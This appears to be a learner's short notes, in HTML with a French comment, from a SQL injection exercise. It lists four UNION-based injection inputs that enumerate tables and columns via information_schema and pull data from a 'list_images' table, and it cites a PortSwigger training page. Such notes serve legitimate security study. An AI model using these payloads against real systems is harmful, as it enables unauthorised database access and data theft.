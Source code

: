 <p>1 or true<br>
2 or true union select table_name, table_type from information_schema.tables<br>
3 or true union select table_name, column_name from information_schema.columns<br>
4 or true union select title, comment from list_images<br>
le site qui m'a montré comment récup des infos sur la bdd : https://portswigger.net/web-security/sql-injection/examining-the-database
</p>
